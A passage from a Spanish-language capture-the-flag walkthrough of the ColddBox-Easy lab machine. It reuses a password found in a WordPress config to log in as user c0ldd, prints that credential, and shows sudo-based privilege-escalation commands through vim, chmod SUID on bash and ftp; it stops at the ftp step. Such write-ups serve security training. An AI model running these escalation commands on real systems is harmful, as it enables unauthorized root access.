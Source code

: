 ```

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```

Vemos una contraseña por lo que probaremos esa contraseña con el usuario `c0ldd`...

```shell
su c0ldd
```

Y veremos que si es la contarseña del usuario, por lo que nos conectaremos por `ssh`...

```
User = c0ldd
Password = cybersecurity
```

```shell
ssh c0ldd@<IP>
```

Y una vez estemos dentro haremos `sudo -l` y veremos lo siguiente...

```
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Veremos que podremos hacer varias cosas como `root` y podremos escalar de 3 formas distintas...

> /usr/bin/vim

```shell
sudo vim -c ':!/bin/sh'
```

Con esto serias `root`...

> /bin/chmod

```shell
sudo chmod u+s /bin/bash
```

```shell
bash -p
```

Con esto serias `root`...

> /usr/bin/ftp

```shell
sudo ftp
```
